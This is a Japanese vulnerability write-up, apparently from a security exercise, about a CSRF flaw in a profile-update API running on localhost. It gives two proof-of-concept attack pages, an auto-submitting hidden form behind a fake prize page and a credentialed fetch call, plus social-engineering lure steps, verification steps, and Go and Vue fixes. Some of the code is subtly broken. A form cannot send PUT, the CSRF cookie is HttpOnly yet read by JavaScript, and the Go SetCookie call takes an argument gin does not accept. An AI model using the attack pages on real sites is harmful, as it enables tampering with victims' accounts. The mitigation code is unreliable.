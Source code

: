 # プロフィール更新機能のCSRF

## 脆弱性の説明
プロフィール更新処理でCSRF対策が実装されていないため、クロスサイトリクエストフォージェリ（CSRF）攻撃が可能です。

## 影響範囲
- 不正なプロフィール更新
- ユーザー情報の改ざん
- 意図しない操作の実行

## 攻撃方法と手順

### 1. 基本的なCSRF攻撃

1. 攻撃者は以下のようなHTMLページを作成します：
   ```html
   <!DOCTYPE html>
   <html>
   <head>
     <title>景品が当たるキャンペーン</title>
   </head>
   <body onload="document.getElementById('csrf-form').submit();">
     <h1>キャンペーンページ</h1>
     <p>しばらくお待ちください...</p>
     
     <!-- 非表示のフォーム -->
     <form id="csrf-form" action="http://localhost:9090/api/profile" method="PUT" style="display:none;">
       <input type="text" name="nickname" value="ハッキングされました">
       <input type="text" name="bio" value="このアカウントは乗っ取られました">
     </form>
   </body>
   </html>
   ```

2. 被害者がこのページにアクセスすると、自動的にプロフィール更新リクエストが送信されます
3. 被害者がアプリケーションにログイン済みの場合、Cookieが自動的に送信され、プロフィールが不正に更新されます

### 2. JavaScriptを使用したCSRF攻撃

1. 攻撃者は以下のようなHTMLページを作成します：
   ```html
   <!DOCTYPE html>
   <html>
   <head>
     <title>面白い動画サイト</title>
     <script>
       window.onload = function() {
         // 認証済みのユーザーのプロフィールを更新するリクエスト
         fetch('http://localhost:9090/api/profile', {
           method: 'PUT',
           credentials: 'include', // Cookieを含める
           headers: {
             'Content-Type': 'application/json'
           },
           body: JSON.stringify({
             nickname: 'ハッキングされました',
             bio: 'このアカウントは乗っ取られました'
           })
         });
       };
     </script>
   </head>
   <body>
     <h1>面白い動画</h1>
     <p>動画を読み込んでいます...</p>
   </body>
   </html>
   ```

2. 被害者がこのページにアクセスすると、JavaScriptコードが実行され、プロフィール更新リクエストが送信されます
3. 被害者がアプリケーションにログイン済みの場合、Cookieが自動的に送信され、プロフィールが不正に更新されます

### 3. ソーシャルエンジニアリングを組み合わせたCSRF攻撃

1. 攻撃者は魅力的な景品や情報を提供するWebサイトを作成し、上記のCSRFコードを埋め込みます
2. 攻撃者はSNSやメールなどで被害者に対して、そのWebサイトへのリンクを送信します
3. 被害者がリンクをクリックしてWebサイトにアクセスすると、バックグラウンドでCSRF攻撃が実行されます

## 攻撃成功の確認手順

### 1. テスト用のCSRFページの作成

1. 上記のHTMLコードをコピーして、`csrf-test.html`などのファイル名で保存します
2. ローカルでHTTPサーバーを起動します（例：`python -m http.server 8000`）
3. 別のブラウザまたはプライベートウィンドウでアプリケーションにログインします
4. ブラウザで`http://localhost:8000/csrf-test.html`にアクセスします

### 2. プロフィール変更の確認

1. CSRF攻撃ページにアクセスした後、アプリケーションのプロフィールページに移動します
2. プロフィール情報が攻撃ページで指定した値に変更されていることを確認します
3. アプリケーションのログには、プロフィール更新のリクエストが記録されているはずです

### 3. ネットワークリクエストの確認

1. ブラウザの開発者ツールを開きます（F12キー）
2. 「Network」タブを選択します
3. CSRF攻撃ページにアクセスします
4. プロフィール更新リクエスト（`/api/profile`へのPUTリクエスト）が送信されていることを確認します
5. リクエストに認証Cookieが含まれていることを確認します

## 対策方法
### 1. CSRFトークンの実装
```go
// バックエンド（Go）
func generateCSRFToken(c *gin.Context) string {
    token := uuid.New().String()
    c.SetCookie("csrf_token", token, 3600, "/", "", true, true)
    return token
}

func validateCSRFToken(c *gin.Context) bool {
    cookie, err := c.Cookie("csrf_token")
    if err != nil {
        return false
    }
    token := c.GetHeader("X-CSRF-Token")
    return cookie == token
}
```

```javascript
// フロントエンド（Vue）
// APIリクエスト時にCSRFトークンを設定
axios.interceptors.request.use(config => {
  const token = getCookie('csrf_token');
  if (token) {
    config.headers['X-CSRF-Token'] = token;
  }
  return config;
});
```

### 2. SameSite属性の設定
```go
// セッションCookieの設定
c.SetCookie("session", sessionID, 3600, "/", "", true, true, http.SameSiteStrictMode)
```
